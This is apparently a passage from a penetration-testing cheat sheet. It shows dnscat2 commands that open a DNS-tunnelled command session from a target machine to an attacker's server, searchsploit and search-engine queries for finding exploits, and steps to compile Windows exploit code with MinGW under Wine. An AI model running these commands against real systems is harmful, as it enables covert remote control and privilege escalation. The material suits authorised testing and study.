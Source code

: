 ```
ruby ./dnscat2.rb
dnscat2> New session established: 1422
dnscat2> session -i 1422
```

Target Machine:

https://downloads.skullsecurity.org/dnscat2/ https://github.com/lukebaggett/dnscat2-powershell/

```
dnscat --host <dnscat server_ip>
```

## BOF / Exploit

## Exploit Research

Find exploits for enumerated hosts / services.

| COMMAND                                                      | DESCRIPTION                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `searchsploit windows 2003 | grep -i local`                  | Search exploit-db for exploit, in this example windows 2003 + local esc |
| `site:exploit-db.com exploit kernel <= 3`                    | Use google to search exploit-db.com for exploits             |
| `grep -R "W7" /usr/share/metasploit-framework/modules/exploit/windows/*` | Search metasploit modules using grep - msf search sucks a bit |

### Searching for Exploits

Install local copy of exploit-db:

```
 searchsploit –u
 searchsploit apache 2.2
 searchsploit "Linux Kernel"
 searchsploit linux 2.6 | grep -i ubuntu | grep local
```

### Compiling Windows Exploits on Kali

```
  wget -O mingw-get-setup.exe http://sourceforge.net/projects/mingw/files/Installer/mingw-get-setup.exe/download
  wine mingw-get-setup.exe
  select mingw32-base
  cd /root/.wine/drive_c/windows
  wget http://gojhonny.com/misc/mingw_bin.zip && unzip mingw_bin.zip
  cd /root/.wine/drive_c/MinGW/bin
  wine gcc -o ability.exe /tmp/exploit.c -lwsock32
  wine ability.exe  
```

### Cross Compiling Exploits
